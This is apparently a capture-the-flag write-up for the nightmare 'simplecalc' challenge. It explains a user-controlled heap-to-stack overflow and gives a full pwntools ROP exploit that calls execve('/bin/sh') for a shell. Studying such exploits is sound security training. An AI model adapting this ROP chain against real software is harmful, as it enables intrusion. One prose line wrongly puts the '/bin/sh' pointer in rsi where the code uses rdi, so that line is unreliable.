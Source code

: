```yaml
---
title: Nigtmare (module 7 simplecalc)
author: megachar0x01
date: 2021-06-28
categories: [Binary Exploitation, nightmare]

---
```



let's start reversing it with the main function first we see that a value is taken which is stored in the no_loops variable ( Int )  then it is used to create a loop, used as a size for allocating memory on the heap, and also use to control how much memory is to be copied from  heap to stack  then input is taken from user to select what type of function is to be executed (1. addition, 2. subtraction, 3. multiplication, 4. division and 5. copy memory from heap to stack ) after the loop is completely free is used to free up heap memory and program exits

![Desktop View](https://github.com/Megachar0x01/megachar0x01.github.io/blob/main/commons/writeup2/1.png)

##### Add function

In Add function, we can see that it takes 2 input and then store it in a global variable and then check if it is greater than 39 then it will add two values and store them in a third global variable, and then the exit function and if it is smaller than 39 than prints a msg and exit without doing anything

![Desktop View](/commons/writeup2/2.png)

rest of the function doing as the name suggests sub,mul, and divide but with the same restrictions as add function (check the value if its greater than 39)

now we have a general view of the program let's start working on getting shell

The first vuln I can find is that the stack has limited space ( 40 bytes ) and the number of bytes to be copied is controlled by the user


**no_loops is controlled by user**

![Desktop View](/commons/writeup2/3.png)

now its time to fill the heap with values like its stack (because it will be placed on the stack ) for that we see that after the calculation function ( add, sub, mul, div) we can see that the global value is placed on the heap every time on a different address (because of for_loop multiplying by the address which is incrementing the address value )

Now its time to start working on the exploit first we start by padding . One important thing we will do is overwrite the heap pointer which will be used by the free function to free memory to bypass we will add that variable with "zero" so the free function closes without error and rest of padding till we control instruction pointer rest of is simple creating rope chain.


Now for rop chain our goal is to get shell so we can use sys_execv syscall (man execv ) to call "/bin/sh" for that we have to put the string "/bin/sh" in memory then put the memory pointer to rsi register we can put "0x0" in rest of register (rdi,rdx) and then put "0x3b" (which is number of sys_execv)   in rax and call syscall rop gadget and  u got a shell on the system (THis was the second-best challenge after sandbox escape )

```python
#!/usr/bin/python3

from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
break *main+518
continue
'''.format(**locals())

# break *0x0000000000401545



exe = "./simplecalc" ; elf = context.binary=ELF(exe,checksec=False)

rop= ROP(exe,checksec=False)

def menu(menu_no,menu_x,menu_y):
    io.sendlineafter(b"=>",menu_no)
    io.sendlineafter(b"Integer x: ",menu_x)
    io.sendlineafter(b"Integer y: ",menu_y)
    io.recvline()

def zero ():
    menu(b"2",b"2000",b"2000")

def format_f(fromat_value):
    x = int(fromat_value) - 50000
    menu(b"1",str(x),b"50000")
    zero()

def padd ():
    for x in range(18):
        zero()

#### ROP #############
mov_ptr_rax_rdx_ret = 0x000000000044526e # mov qword ptr [rax], rdx; ret; 
pop_rdi = 0x0000000000401b73
pop_rdx = 0x0000000000437a85
pop_rax = 0x000000000044db34
pop_rsi = 0x0000000000401c87
syscall = 0x00000000004648e5
bin_var = 0x6e69622f
sh_var = 0x68732f


######################


io = start ()

io.sendlineafter(b"Expected number of calculations: ",b"150")

padd ()
format_f(pop_rdx)
format_f(bin_var)
format_f(pop_rax)
format_f(0x6c0008)
format_f(mov_ptr_rax_rdx_ret)
format_f(pop_rax)
format_f(0x6c000c)
format_f(pop_rdx)
format_f(sh_var)
format_f(mov_ptr_rax_rdx_ret)
format_f(pop_rdi)
format_f(0x6c0008)
format_f(pop_rsi)
format_f(0x0)
format_f(pop_rdx)
format_f(0x0)
format_f(pop_rax)
format_f(0x3b)
format_f(syscall)


io.sendlineafter(b"=>",b"5")
io.interactive()
```


[![asciicast](https://asciinema.org/a/504622.svg)](https://asciinema.org/a/504622)

